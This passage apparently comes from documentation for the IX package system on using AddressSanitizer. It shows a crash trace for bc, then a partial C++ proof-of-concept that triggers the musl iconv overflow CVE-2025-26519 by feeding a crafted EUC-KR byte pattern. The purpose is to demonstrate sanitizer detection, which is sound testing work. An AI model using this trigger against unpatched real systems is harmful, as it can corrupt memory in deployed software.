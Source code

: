 ```
    #3 0x000000316c06 in __asan::ScopedInErrorReport::~ScopedInErrorReport() (/ix/store/kChw3BvAVuPhuPlCGacRh2-bin-bc-gavin/bin/bc+0x316c06)
    #4 0x000000316a08 in __asan::ReportDeadlySignal(__sanitizer::SignalContext const&) (/ix/store/kChw3BvAVuPhuPlCGacRh2-bin-bc-gavin/bin/bc+0x316a08)
    #5 0x000000316011 in __asan::AsanOnDeadlySignal(int, void*, void*) (/ix/store/kChw3BvAVuPhuPlCGacRh2-bin-bc-gavin/bin/bc+0x316011)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV (/ix/store/kChw3BvAVuPhuPlCGacRh2-bin-bc-gavin/bin/bc+0x37741c) in bc_program_print
==2217784==ABORTING
```

## More examples

_Warning: these examples are for illustrative purposes only. Do not use AddressSanitizer as a hardening tool. Quoting the official documentation:_
> While it may be useful for testing, AddressSanitizer’s runtime was not developed with security-sensitive constraints in mind and may compromise the security of the resulting executable.

Let's look at some of the known memory-safety-related vulnerabilities in programs packaged in **IX**, and try to trigger them with AddressSanitizer enabled.
All of these examples were ran with setting `ASAN_SYMBOLIZER_PATH` as described above.

### CVE-2025-26519

`lib/musl` has an unpatched (at the time of writing) buffer overflow in `iconv()` when converting from `EUC-KR` to `UTF-8`. We will create a dummy package with a simple program
that intentionally triggers the overflow by crafting a malicious input of specified size:


```cpp
> cat pkgs/bin/CVE-2025-26519/m.cpp
#include <iconv.h>

#include <iostream>
#include <vector>
#include <string>

int main(int argc, char** argv)
{
        if (argc != 2) {
                std::cerr << "Usage: " << argv[0] << " <N>" << std::endl;
                return 1;
        }

        size_t n = std::stoll(argv[1]);
        iconv_t cd = iconv_open("UTF-8", "EUC-KR");
        std::cout << "Processing input of size " << n << std::endl;

        std::vector<char> in(n);
        size_t ii = 0;
        for (ii = 0; ii + 1 < n; ++ii) {
                in[ii] = ii % 2 == 0 ? 0xc8 : 0x41;
        }
        in[ii] = 0x42;
        size_t inb = in.size();
        char* pin = in.data();

        std::vector<char> out(4 * in.size());
        size_t outb = out.size();
        char* pout = out.data();

        size_t res = iconv(cd, &pin, &inb, &pout, &outb);
```